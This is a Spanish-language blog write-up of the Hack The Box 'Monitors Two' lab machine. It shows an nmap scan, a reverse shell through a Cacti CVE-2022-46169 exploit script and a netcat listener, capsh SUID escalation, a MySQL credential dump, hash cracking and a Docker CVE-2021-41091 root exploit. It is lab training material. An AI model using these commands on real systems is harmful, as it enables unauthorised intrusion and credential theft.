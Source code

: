 ```yaml
---
layout: post
title: MONITORS TWO WRITEUP.
subtitle: Resolucion de la maquina monitors two de HTB.
header-img: img/in-post/monitors_two/monitors-two.webp
header-style: image
header-mask: rgba(0, 0, 0, .4)
catalog: true
tags:
  - htb
  - docker-abuse
  - rce
  - password-cracking
---
```


  <!-- HTML Meta Tags -->
  <title>MONITORS TWO WRITEUP.</title>
  <meta name="description" content="Resolución de la máquina monitors two de HTB.">
  <meta property="og:site_name" content="QuantumWavves">
  <meta property="og:image" content="https://quantumwavves.github.io/img/in-post/monitors_two/monitors-two.webp">

  <!-- Facebook Meta Tags -->
  <meta property="og:url" content="https://quantumwavves.github.io/2023/09/21/monitors-two/">
  <meta property="og:type" content="website">
  <meta property="og:title" content="MONITORS TWO WRITEUP.">
  <meta property="og:description" content="Resolución de la máquina monitors two de HTB.">
  <meta property="og:image" content="https://quantumwavves.github.io/img/in-post/monitors_two/monitors-two.webp">
  <meta property="og:image:width" content="200" />
  <meta property="og:image:height" content="200" />

  <!-- Twitter Meta Tags -->
  <meta name="twitter:card" content="summary_large_image">
  <meta property="twitter:domain" content="quantumwavves.github.io">
  <meta property="twitter:url" content="https://quantumwavves.github.io/2023/09/21/monitors-two/">
  <meta name="twitter:title" content="MONITORS TWO WRITEUP.">
  <meta name="twitter:description" content="Resolución de la máquina monitors two de HTB.">
  <meta name="twitter:image" content="https://quantumwavves.github.io/img/in-post/monitors_two/monitors-two.webp">

## Tools
- Python
- Netcat 
- John The Ripper
## Topics
- Remote Code Execution / Reverse Shell
- Docker
- CVE's 
- Privilege Escalation
- Password HASH cracking
- SSH

Hola, el dia de hoy vamos a resolver la maquina de monitors two de HTB.

Primero realizaremos un escaneo de reconocimiento con NMAP.

## Reconocimiento

```bash
sudo nmap -Pn -p- -A -T4 -oN scan.txt 10.10.11.211
```
Obtenemos el resultado del escaneo:

<img src="/img/in-post/monitors_two/nmap-scan.png" onclick="window.open(this.src)">

<p style="text-aling:justify">Observamos que existen dos puertos abiertos, el 22 que corresponde al servicio de SSH y el 80 que corresponde al servicio de HTTP. Revisamos el puerto 80 a través del navegador.</p>

<img src="/img/in-post/monitors_two/cacti-login.png" onclick="window.open(this.src)">

<p style="text-aling:justify">Observamos que es un login de Cacti, un software para el monitoreo de red. Probamos contraseñas default sin tener exito. Sin embargo podemos buscar CVE para la version 1.2.22 de cacti, misma que nos muestra en el login.</p>

## RCE / Reverse Shell

Después de una búsqueda encontramos una CVE para la versión 1.2.22.

- <a href ="https://cve.mitre.org/cgi-bin/cvename.cgi?name=VE-2022-46169">CVE 2022-46169</a>

Buscando encontre el siguiente script que nos ayuda con la RCE y nos brinda una reverse shell.

- <a href="https://github.com/FredBrave/CVE-2022-46169-CACTI-1.2.22">FredBrave CVE-2022-46169</a>

Utilizare Netcat con los siguientes flags -n para que no haga resolucion de dns, -l para estar a la escucha, -v de verbose y -p que indica el puerto, en este caso 443:

```bash
sudo nc -nlvp 443
```

Utilizando el script para la RCE podremos obtener la reverse shell.

```bash
python3 CVE-2022-46169.py -u http://10.10.11.211 --LHOST 10.10.16.79 --LPORT=443
```

<img src="/img/in-post/monitors_two/python-script.png" onclick="window.open(this.src)">

Ahora obtenemos la reverse shell a través del puerto 443.

<img src="/img/in-post/monitors_two/reverse-shell.png" onclick="window.open(this.src)">

## Escalada de privilegios

Utilizaremos esta herramienta para enumerar los binarios SUID.

- <a href="https://github.com/rebootuser/LinEnum">LinEnum</a>

Crearemos un servidor web para poder acceder al recurso.

<img src="/img/in-post/monitors_two/python-webserver.png" onclick="window.open(this.src)">

Obtenemos el recurso con wget.

<img src="/img/in-post/monitors_two/wget-source.png" onclick="window.open(this.src)">

Le damos permisos de ejecucion.

```bash
chmod +x LinEnum.sh
  ```
<img src="/img/in-post/monitors_two/linenum-permission.png" onclick="window.open(this.src)">

Una vez ejecutado el script nos listara los archivos SUID, nos interesa el archivo ``/sbin/capsh``. ¿Por que nos interesa este archivo? Principalmente por que no pierde privilegios heredados, por que lo que puede funcionarnos como puerta trasera. Mas sobre este archivo:

- <a href="https://gtfobins.github.io/gtfobins/capsh/">gtfobins</a>

<img src="/img/in-post/monitors_two/suid-files.png" onclick="window.open(this.src)">

Nos dirigimos a la ruta ``/sbin`` donde se encuentra el archivo capsh y ejecutaremos el siguiente comando para poder escalar privilegios.

```bash
./capsh --gid=0 --uid=0 --
```

<img src="/img/in-post/monitors_two/capsh.png" onclick="window.open(this.src)">

## Obteniendo credenciales

Observamos que mysql esta dentro del contenedor, utilizamos el siguiente comando para listar a los usuarios root.

```bash
mysql --host=db --user=root --password=root cacti -e "SELECT * FROM user_auth"
```

<img src="/img/in-post/monitors_two/mysql.png" onclick="window.open(this.src)">

Vemos que existe un usuario ``marcus`` y nos da un hash del password del usuario.

## Cracking Hash Password

Utilizaremos john the ripper para encontrar una coincidencia con un diccionario.

<img src="/img/in-post/monitors_two/john.png" onclick="window.open(this.src)">

Vemos que ha encontrado una posible coincidencia.

## Logeandose por ssh

Intentaremos acceder por ssh introduciendo las credenciales del usuario marcus.

<img src="/img/in-post/monitors_two/ssh-auth.png" onclick="window.open(this.src)">

Y listo, tenemos acceso desde el usuario ``marcus``.

<img src="/img/in-post/monitors_two/ssh-login.png" onclick="window.open(this.src)">

## Escalando privilegios

Listaremos la version de docker que se esta utilizando.

<img src="/img/in-post/monitors_two/docker-v.png" onclick="window.open(this.src)">

Vemos que es la version ``20.10.5+dfsg1``, buscaremos alguna CVE que pueda ayudarnos con la escalada de privilegios. Después de una busqueda encontre un script que nos ayuda con esta CVE.

- <a href="https://cve.mitre.org/cgi-bin/cvename.cgi?name=2021-41091">Mitre CVE 2021-41091</a>
- <a href="https://github.com/UncleJ4ck/CVE-2021-41091">CVE-2021-41091</a>

Para poder usar este script necesitamos volver al contenedor y asignar a /bin/bash permisos de suid.

<img src="/img/in-post/monitors_two/bash-u+s.png" onclick="window.open(this.src)">

Exponemos el recurso con un servidor web como lo hicimos anteriormente.

<img src="/img/in-post/monitors_two/wget-exp.png" onclick="window.open(this.src)">

Le damos permisos de ejecucion para poder utilizarlo. 

<img src="/img/in-post/monitors_two/exp-permission.png" onclick="window.open(this.src)">

Despues de la ejecucion vemos que nos arroja un path: <br> ``/var/lib/docker/overlay2/c41d5854e4bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged``.

<img src="/img/in-post/monitors_two/exp-exe.png" onclick="window.open(this.src)">

Nos dirigimos a ese directorio y ejecutamos el siguiente comando para obtener la shell en root.

```bash
./bin/bash -p
```

<img src="/img/in-post/monitors_two/powned.png" onclick="window.open(this.src)">

Y listo, ahora somos root.

<img src="https://media.tenor.com/oY3PFmGbo98AAAAC/furina-genshin.gif">

Eso ha sido todo por el post, si piensas que me he equivocado en la informacion o en que he omitido algo que pueda mejorar el post, puedes contactarme por discord ```quantumwavves```
